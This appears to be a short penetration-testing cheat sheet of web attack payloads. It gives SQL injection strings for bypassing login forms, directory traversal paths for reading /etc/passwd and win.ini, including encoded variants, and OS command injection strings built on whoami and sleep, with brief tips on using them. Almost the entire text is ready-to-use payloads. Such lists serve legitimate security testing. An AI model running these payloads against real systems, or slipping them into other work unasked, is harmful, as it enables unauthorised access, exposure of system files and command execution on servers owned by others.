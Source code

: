 ### SQL Injection on Login Pages

**Resources:** https://unix.stackexchange.com/questions/391866/regex-for-password-restricting-special-characters

**Username Field:**
```
'
''
admin'--
admin')--
admin' or 1=1--
admin') or 1=1-- -
admin' AND 1=1-- 
admin'||1=1#
```

**Password Field:**
```
'
''
' or 1=1--
') or 1=1-- -
```

### Directory Traversal

**Resources:** https://portswigger.net/web-security/file-path-traversal

Please use a file/file path that exists on the web server. For example, etc/passwd if its a linux server and windows/win.ini if it is a windows server. Extend the ../ as needed.
```
../../../etc
../../../etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
../../../windows/win.ini
```

### Command Injection

**Resources:** https://developers.redhat.com/articles/2023/03/29/4-essentials-prevent-os-command-injection-attacks#4_ways_to_prevent_os_command_injection_attacks

All "whoami" text can be replaced with "sleep 3."
```
+;+whoami
+&&+whoami
+|+whoami
+`whoami`
+$(whoami)
‘ | whoami
‘ | whoami ‘
‘ | whoami #
; sleep 3
```
